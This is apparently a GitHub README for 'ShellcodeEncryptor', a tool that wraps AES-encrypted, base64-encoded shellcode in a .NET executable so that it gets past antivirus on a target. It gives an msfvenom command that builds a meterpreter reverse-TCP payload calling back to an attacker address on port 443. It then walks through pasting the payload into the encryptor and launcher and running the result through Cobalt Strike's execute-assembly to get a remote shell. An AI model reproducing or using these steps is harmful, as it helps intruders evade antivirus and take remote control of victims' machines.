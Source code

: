 # ShellcodeEncryptor
A simple shell code encryptor/decryptor/executor to bypass anti virus.

**Purpose**
To generate a .Net binary containing base64 encoded, AES encrypted shellcode that will execute on a target, bypassing anti-virus.

If you find the workflow a little cumbersome, feel free to take the code and make something useful of it, but to quote a famous philosopher:
> Life moves pretty fast. If you don't stop and look around once in a while, you could miss it.

**Instructions**

Create a meterpreter payload using `msfvenom`:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=443 LHOST=10.10.14.5 -f csharp
```
Copy the byte array and paste it into the shellcode variable in `encryptor.cs`
```
byte[] shellcode = new byte[]
{
... here ...
};
```
Compile it, run it then copy the base64 string. Paste the string into the `shellcodeb64` variable in launcher.cs.
```
string shellcodeb64 = "...here...";
```
Take the resulting executable and run it on the target, for example (Cobalt Strike):
```
execute-assembly ./uploads/launcher.exe
```

Hopefully you will have a meterpreter shell.
